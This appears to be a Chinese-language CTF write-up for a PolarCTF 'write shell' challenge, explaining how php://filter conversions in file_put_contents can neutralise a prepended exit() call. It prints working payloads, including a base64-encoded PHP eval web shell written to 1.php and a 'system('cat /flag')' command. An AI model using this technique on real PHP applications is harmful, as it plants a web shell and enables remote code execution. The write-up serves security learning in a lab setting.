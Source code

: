 ```yaml
---
date: 2024-06-08
categories: 
    - PolarCTF
tag:
    - CTF
    - 文件包含
    - php伪协议
---
```


# 每日一题 —— [PolarCTF]写shell

> 题目地址：<https://www.polarctf.com/#/page/challenges>

<!-- more -->

打开题目就是很简单的一行代码，他会把你输入的 `content` 并上前面的 `<?php exit();` 一起写入到你指定的文件内。

观察到题目使用了 `file_put_contents` 函数，这个函数是支持 php 伪协议的，所以我们可以尝试使用 `php://filter` 来对我们输入的内容进行转换。预期结果就是，我们输入的内容可以把前面的 `exit` 函数给弄得失效，并且我们写入的 php 代码可以生效。

首先尝试这个 payload:
 
```
?filename=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=1.txt

POST:
content= ?<hp phpipfn(o;)
```

注意 `content` 和 `?` 之间的空格，这是因为 `UCS-2LE` 和 `UCS-2BE` 之间是两两组队互相交换的。所以为了保证转换成功进行，我们使用空格让前面的数据维持一个偶数个。

最后发现没有效果，在 `/1.txt` 中，所有数据被原原本本地写入了进去，也就是说前面的 `exit()` 被照常执行了。具体原因不清楚，没有办法，我们只能换一个方法。 

现在我们测试一下 base64 的方法。我们先把需要的东西进行 base64 编码写入进去测试一下：

```
?filename=php://filter/convert.base64-encode/resource=1.txt

POST:
content=<?phpinfo();
```

打开 `/1.txt` 可以看到数据被成功以 base64 的方式写入了进去。但是我们需要往里写入原始数据，所以我们预先要准备好一串 base64 编码好的 payload. 那么前面的函数怎么办呢。这里涉及一个 base64 的知识：base64 在转换的过程中是 3:4 的比例转换的，也就是说，对于一串原始文本，每三个字符一组被转换为一串 base64 ，其长度为 4. 因此在把 base64 解码的过程中，会四个字符一组转换。另外 base64 只支持 `[A-Z]` `[a-z` `/` `+` `=` 这些字符，其余的字符都是会被当作垃圾字符直接舍弃掉。

因此观察前面的代码 `<?php exit();` ，如果我们将其认为是一段 base64 编码的话，他会被省略无关字符，变为 `phpexit` ，一共七个字符。那么如果我们转换为原始文本，为了不影响后面的 payload 的转换，按照 4:3 的转换标准，我们需要补上一个合法字符凑齐 4 的倍数，然后再跟上已经编码好的 payload, 如下:

```bash
aPD9waHAgZXZhbCgkX1BPU1RbMV0pOw==   # <?php eval($_POST[1]);
```

熟悉这一段的都知道，`PD9w` 开头的就是 php 代码了。前面的 a 就会帮忙补足所需要的字节数。因此最终 payload ：

```bash
?filename=php://filter/convert.base64-decode/resource=1.php

POST
content=aPD9waHAgZXZhbCgkX1BPU1RbMV0pOw==
```

注意和之前的 payload 不同的是，我把输出的文件名改成了 `1.php` ，这样才可以成功解析我们要的 php 代码。另外 `base64` 后面跟着的是 `decode` ，因为这一次是我们预先输入了一串 base64，服务器帮我们解析成了原始文本。

最后，通过访问 `/1.php` ，无论是蚁剑连接，还是直接手搓 `POST: 1=system('cat /flag');` 都没问题了。
